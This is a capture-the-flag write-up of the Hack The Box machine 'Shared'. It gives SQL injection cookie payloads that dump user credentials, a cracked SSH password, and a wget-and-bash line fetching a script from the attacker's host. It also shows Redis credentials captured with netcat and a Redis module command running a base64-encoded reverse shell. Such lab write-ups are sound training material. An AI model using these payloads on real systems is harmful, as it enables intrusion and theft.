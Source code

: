 Hack the box:Shared

***enumeration***

Nmap scan
```
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18
```
Domain && subdomain

**http://shared.htb**

**http://checkout.shared.htb**

vuln in cookie

cookie => custom_cart=%7B%2253GG2EF8%22%3A%223%22%7D

decode cookie value => custom_cart={"53GG2EF8":"3"}

***FootHold***

union based blind sql injection

referal https://infosecwriteups.com/healing-blind-injections-df30b9e0e06f


payload
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(user()),3-- -":"3"}
```
database user

checkout@localhost

Database Name Enumeration
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -":"3"}
```
information_schema,checkout

Tables from checkout;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
user,product

Columns from user;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME,COLUMN_NAME) from INFORMATION_SCHEMA.COlUMNS where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
user.id,user.username,user.password,product.id,product.code,prodcut.price

username and password from user
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(username) from checkout.user),3-- -":"3"}
```
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(password) from checkout.user),3-- -":"3"}
```
james_mason:fc895d4eddc2fc12f995e18c865cf273

cracked the hash using hashcat

ssh cred => james_mason:Soleil101

connect to SSH

***switch user james_mason to dan_smith***

their is a cronjob running to use ipython 

recent cve of ipython https://github.com/advisories/GHSA-pq7m-3gw7-gq5x

for exploiting the ipython we create a shell script to automate some purpose

wget http://10.10.16.19/script.sh && chmod +x script.sh && bash script.sh

***root***

The server has running redis as root but we cannot connect the server without creds so we need to
find the cred to access the server

let's check the user's and groups related files
```
find / -group sysadmin 2>/dev/null
```
we found a intersting excutable file in /usr/local/bin

It is a excutable binary to connect the redis server as localy and automaticly login using the auth creds and run a simple redis command info and get the result to us

from their we know in the excutable has the auth cred. copy the binary to our local machine
start anlayzing it
```
scp -i file.key dan_smith@ip:/usr/local/bin/redis_connector_dev redis_connector_dev
```
run the binary on localy and setup a netcat listion on port 6379
```
nc -lv localhost 9379
```
after runing the binary we get the connection on netcat and got the creds

redis => auth:F2WHqJUz2WEz=Gqq

after gain access the redis using the auth creds we create a custom module for runing the os commands
referal https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

**commands**

auth F2WHqJUz2WEz=Gqq

MODULE  LOAD /dev/shm/redis/module.so

module list

system.exec "cat /root/root"

system.exec "echo -n 'YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE2LjEwLzkwMDEgICAwPiYxIA==' | base64 -d |bash"
